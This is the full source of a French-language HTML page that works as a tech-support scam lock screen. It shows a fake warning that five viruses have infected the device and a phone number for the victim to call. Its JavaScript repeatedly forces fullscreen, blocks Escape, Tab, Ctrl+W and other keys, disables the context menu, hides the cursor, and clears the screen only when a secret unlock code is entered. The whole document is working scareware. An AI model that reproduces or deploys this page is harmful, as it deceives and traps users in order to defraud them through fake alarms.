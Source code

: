 <!DOCTYPE html><html lang="fr">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Alerte Système</title>
    <style>
        * {
            margin: 0;
            padding: 0;
            box-sizing: border-box;
            user-select: none;
            cursor: none;
        }
        html, body {
            width: 100vw;
            height: 100vh;
            background: black;
            color: white;
            font-family: 'Courier New', Courier, monospace;
            text-align: center;
            overflow: hidden;
            display: flex;
            justify-content: center;
            align-items: center;
        }
        .container {
            display: flex;
            flex-direction: column;
            justify-content: center;
            align-items: center;
            width: 100%;
            height: 100%;
            padding: 5%;
        }
        .message {
            font-size: 3vw;
            font-weight: bold;
        }
        .alert-number {
            font-size: 2.5vw;
            font-weight: bold;
            color: red;
        }
        #codeInput {
            margin-top: 20px;
            padding: 10px;
            font-size: 2vw;
            text-align: center;
            border: 2px solid white;
            width: 50%;
            background: black;
            color: white;
            outline: none;
        }
        #error-message {
            color: red;
            font-size: 1.5vw;
            margin-top: 10px;
            animation: shake 0.5s;
            animation-iteration-count: 1;
        }
        @keyframes shake {
            0% { transform: translateX(0); }
            25% { transform: translateX(-5px); }
            50% { transform: translateX(5px); }
            75% { transform: translateX(-5px); }
            100% { transform: translateX(0); }
        }
    </style>
</head>
<body oncontextmenu="return false" onkeydown="return blockKeys(event)">
    <div class="container">
        <p class="message"> 🚨 ATTENTION ! 🚨<br>5 VIRUS DÉTECTÉS SUR VOTRE APPAREIL !<br>🛑 Votre système est compromis ! 🛑</p>
        <p class="alert-number">+44 741 30 52 610</p>
        <p style="font-size: 2vw;">Entrez le code de déverrouillage :</p>
        <input type="password" id="codeInput" placeholder="Code secret">
        <p id="error-message"></p>
    </div>
    <script>
        function openFullscreen() {
            let elem = document.documentElement;
            if (elem.requestFullscreen) {
                elem.requestFullscreen();
            } else if (elem.mozRequestFullScreen) {
                elem.mozRequestFullScreen();
            } else if (elem.webkitRequestFullscreen) {
                elem.webkitRequestFullscreen();
            } else if (elem.msRequestFullscreen) {
                elem.msRequestFullscreen();
            }
        }function blockKeys(event) {
        let blockedKeys = ["Escape", "Tab", "F11", "F4", "Alt", "Control", "Meta", "Backspace"].filter(key => !["d", "a", "k", "r"].includes(key.toLowerCase()));
        if (blockedKeys.includes(event.key) || (event.ctrlKey && event.key === "w")) {
            event.preventDefault();
            return false;
        }
    }
    
    document.addEventListener("fullscreenchange", function() {
        if (!document.fullscreenElement) {
            openFullscreen();
        }
    });
    
    let inputField = document.getElementById("codeInput");
    let errorMessage = document.getElementById("error-message");
    
    inputField.addEventListener("keyup", function(event) {
        if (event.key === "Enter") {
            if (this.value === "1234" || this.value === "2012" || this.value.toLowerCase() === "dakar") {
                document.body.innerHTML = "<h1 style='color: white; text-align: center; margin-top: 20%; font-size: 3vw;'>Système restauré</h1>";
            } else {
                errorMessage.innerText = "Code incorrect !";
                errorMessage.classList.add("shake");
                setTimeout(() => errorMessage.classList.remove("shake"), 500);
                this.value = "";
            }
        }
    });
    
    window.onload = function() {
        openFullscreen();
        inputField.focus();
        repositionMouse();
    };
    
    function repositionMouse() {
        let x = 0;
        let y = 0;
        let event = new MouseEvent("mousemove", {
            bubbles: true,
            cancelable: true,
            clientX: x,
            clientY: y
        });
        document.dispatchEvent(event);
    }
    
    setInterval(openFullscreen, 500);
    setInterval(repositionMouse, 100);
</script>

</body>
</html>

